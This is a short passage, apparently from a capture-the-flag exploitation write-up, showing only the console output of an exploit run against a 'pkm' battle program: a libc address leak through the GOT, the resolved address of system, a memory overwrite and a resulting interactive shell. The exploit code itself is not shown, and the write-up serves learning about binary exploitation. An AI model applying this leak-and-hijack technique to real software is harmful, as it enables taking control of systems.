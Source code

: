 Script's `stdout` of the exploit in action:

```shell
renaming pkm (id: 0)
getting info about pkm (id: 5)
libc leak: 0x7ffff7a7f6c0
[8] Wrote address of GOT in some chunk to leak libc. Press any key to continue...
system address: 0x7ffff7a395f0
[9] Press any key to write target in memory...
renaming pkm (id: 0)
[10] Press any key to call target...
pkm 5 is fighting pkm 1 with 9
[*] Switching to interactive mode
 [%] (null) uses (null) on PKM!
$
```
